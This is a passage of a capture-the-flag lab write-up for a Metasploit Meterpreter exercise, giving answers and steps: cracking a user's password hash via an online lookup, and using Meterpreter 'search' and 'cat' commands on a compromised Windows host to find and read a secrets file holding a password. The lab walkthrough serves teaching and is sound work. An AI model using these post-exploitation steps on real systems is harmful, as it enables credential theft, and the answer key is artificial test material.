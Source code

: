 ![image2](/assets/img/Metasploit-Meterpreter02.png)

---
What is the cleartext password of the jchambers user?
=> 	Trustno1

Hint:
You can use an online hash checker like crackstation.net

NOTE: 
Hash - one-way
Encrytion - two-way

step 1: use crackstation.net with the Hash key from previous question

---
Where is the "secrets.txt"  file located? (Full path of the file)
=> c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt

step 1:
```
search -f *.txt
or 
search -f secrets.txt
```
```
meterpreter > search -f secrets.txt

Found 1 result...
=================
Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100
```
---
What is the Twitter password revealed in the "secrets.txt" file?


Step1:
```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd .. 
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > cd "Program Files (x86)"
meterpreter > pwd
C:\Program Files (x86)
meterpreter > cd "Windows Multimedia Platform"
meterpreter > pwd
C:\Program Files (x86)\Windows Multimedia Platform
meterpreter > cat secrets.txt
My Twitter password is KDSvbsw3849!
meterpreter >
```

---